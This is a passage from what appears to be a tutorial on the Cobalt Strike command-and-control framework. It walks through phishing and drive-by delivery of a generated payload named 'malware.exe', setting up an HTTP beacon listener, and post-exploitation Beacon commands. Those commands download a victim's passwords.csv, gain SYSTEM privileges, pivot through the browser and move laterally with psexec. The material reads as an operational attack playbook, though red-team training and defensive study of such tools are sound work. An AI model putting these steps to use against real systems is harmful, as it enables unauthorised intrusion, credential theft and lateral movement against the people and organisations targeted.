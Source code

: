    - Optionally, assign a Malleable C2 profile or domain for communication.[](https://1337red.wordpress.com/getting-started-with-cobalt-strike/)

### Basic Workflow
1. **Reconnaissance**:
   - Use the System Profiler to identify target vulnerabilities and software.
2. **Weaponization**:
   - Create payloads (e.g., executables, phishing emails) via `Attacks -> Packages` or `Attacks -> Web Drive-by`.
3. **Delivery**:
   - Deploy payloads via spear-phishing, drive-by downloads, or exploits.
4. **Exploitation**:
   - Once a target executes the payload, a Beacon session is established, appearing in the client interface.
5. **Post-Exploitation**:
   - Interact with the Beacon session (right-click -> Interact) to execute commands, escalate privileges, or move laterally.
6. **Reporting**:
   - Generate reports via the `Reporting` menu to document activities and indicators.

### Example Usage
Below is an example of setting up a listener and interacting with a compromised system:

1. **Create a Listener**:
   - Navigate to `Cobalt Strike -> Listeners -> Add`.
   - Name: `MyHTTPListener`
   - Payload: `windows/beacon_http`
   - Host: `192.168.1.100`
   - Port: `80`
   - Save and start the listener.
2. **Generate a Payload**:
   - Go to `Attacks -> Packages -> Windows Executable`.
   - Select `MyHTTPListener` and generate an executable (e.g., `malware.exe`).
3. **Deliver the Payload**:
   - Host the executable on a web server or send it via a phishing email.
4. **Interact with Beacon**:
   - Once the target executes the payload, a session appears in the client.
   - Right-click the session -> `Interact`.
   - Run commands like:
     ```bash
     whoami
     download C:\Users\victim\Documents\passwords.csv
     powerpick Get-Process
     browserpivot
     getsystem
     ```
5. **Lateral Movement**:
   - Use the `jump` command to move to another system:
     ```bash
     jump psexec_psh <target_ip> <listener>
     ```
6. **Clear Commands** (if needed):
   - Use `clear` to cancel queued commands in the Beacon console.[](https://trustedsec.com/blog/red-teaming-with-cobalt-strike-not-so-obvious-features)
